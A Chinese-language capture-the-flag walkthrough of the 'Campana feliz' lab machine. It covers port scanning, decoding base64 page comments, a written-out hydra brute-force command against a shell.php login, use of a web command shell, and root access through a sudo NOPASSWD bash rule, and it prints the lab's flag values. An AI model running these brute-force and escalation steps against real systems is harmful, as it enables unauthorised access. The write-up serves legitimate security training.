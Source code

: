 # Campana feliz

2025.02.26 https://thehackerslabs.com/campana-feliz/

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
8088/tcp  open  radan-http
10000/tcp open  snet-sensor-mgmt
```

先访问 http://192.168.5.40:8088/ 空页面，源码中有注释：

```
<!-- Q2FtcGFuYSBzb2JyZSBjYW1wYW5hCgpZIHNvYnJlIGNhbXBhbmEgdW5hCgpBc8OzbWF0ZSBhIGxhIHZlbnRhbmEKClZlcsOhcyBlbCBuacOxbyBlbiBsYSBjdW5hCg== -->
<!-- Q2FtcGFuYSBDYW1wYW5hIENhTXBBTkEgQ2FNcGFOYQo= -->
```

进行 base64 解码得到：

```
Campana sobre campana

Y sobre campana una

Asómate a la ventana

Verás el niño en la cuna
```

```
Campana Campana CaMpANA CaMpaNa
```

西班牙语进行翻译，在说一个名字 Campana 可能是个登陆用户名。gobuster 扫描 8088 发现页面 http://192.168.5.40:8088/shell.php 需要用户名和密码进行登陆。

访问 10000 端口跳转到 https://192.168.5.40:10000/ 显示的是 Webmin ，尝试了默认的 root 和 admin 凭据都不能登陆。

尝试了用这几个单词作为密码 Campana Campana CaMpANA CaMpaNa 在 8088 页面登陆 Campana 用户，但是都不对，只好尝试使用 rockyou：

```
hydra -t 32 -l campana -P /usr/share/wordlists/rockyou.txt 192.168.5.40 -s 8088 -f http-post-form "/shell.php:username=^USER^&password=^PASS^:F=Username or password invalid"

[8088][http-post-form] host: 192.168.5.40   login: campana   password: lovely
```

登陆成功，发现可以执行命令，执行反弹到 kali 上，发现 bob 用户，需要提权，sudo -l 发现：

```
(ALL) NOPASSWD: /bin/bash
```

直接提升到 root 权限,读取 user flag 和 root flag：

```
www-data@debian:/home$ sudo -u root /bin/bash
root@debian:/home# cd bon
bash: cd: bon: No such file or directory
root@debian:/home# cd bob
root@debian:/home/bob# ls
user.txt
root@debian:/home/bob# cat user.txt
R1aZp7qLdV8MnYX9bQ2wNC5kW3TYoJV
root@debian:/home/bob# cd /root
root@debian:~# ls
root.txt  webmin-1.920	webmin-1.920.tar.gz
root@debian:~# cat root.txt
u5T7vCnO1pQ2zRwX8gLdN6bJyK3mVxY
```

